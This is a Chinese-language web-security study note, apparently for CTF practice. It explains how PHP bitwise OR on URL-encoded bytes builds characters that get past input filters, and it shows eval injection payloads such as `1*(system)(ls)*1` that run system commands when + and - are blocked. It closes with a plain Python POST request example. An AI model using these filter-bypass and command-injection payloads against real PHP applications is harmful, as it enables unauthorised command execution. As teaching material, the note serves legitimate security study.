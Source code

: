 ```php
$a='%01';
$b='%40';//这个是字符的16进制AsCII码值+%
echo urldecode($a).PHP_EOL;
echo urldecode($b).PHP_EOL;
$c=(urldecode($a)|urldecode($b));
echo $c;
```

:::info

- url编码从%00-%ff，其中% + 每个字符对应的16进制ASCII码就是它的url编码

例子：

   - a 的url编码是%61 a 的16进制ASCII码是61
     :::

```php
$a='%0d';
$b='%60';
echo $a | $b;
// "od" 对应的ascii码 0x30 0x64
// "60" 对应的ascii码 0x36 0x30
// 两者或得到 x36 x74 -> “6t!

$a='%0d';
$b='%60';
//但是 这里如果通过url发送，就会先解码，再或，即
echo urldecode($a) | urldecode($b)
```

对于eval中执行的命令问题<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669449868088-c2710a5e-1469-4f3b-ad97-d5868f1c5ffe.png#averageHue=%23fefefd&clientId=uc311d1cc-45c9-4&from=paste&height=244&id=u83da8ae1&originHeight=536&originWidth=1740&originalType=binary&ratio=1&rotation=0&showTitle=false&size=90128&status=done&style=none&taskId=u5ba7f688-450a-4973-ac20-1b32d7b67ba&title=&width=790.9090737665985)
:::info
**在具体执行时需要测试**<br />对于上面的`$code = eval("return $v1$v3$v2;");`<br />如果是`$code = eval("return 1-(system)(ls)-1;");` 这是可以执行的<br />由于过滤了+ - ，可以用* ,**连接运算符还可以用三元运算符**<br />`$code = eval("return 1*(system)(ls)*1;");`，php会当成运算执行
:::

#### python发送post请求

```
# 导入 requests 包
import requests

# 表单参数，参数名为 fname 和 lname
myobj = {'fname': 'RUNOOB','lname': 'Boy'}

# 发送请求
x = requests.post('https://www.runoob.com/try/ajax/demo_post2.php', data = myobj)

# 返回网页内容
print(x.text)
```
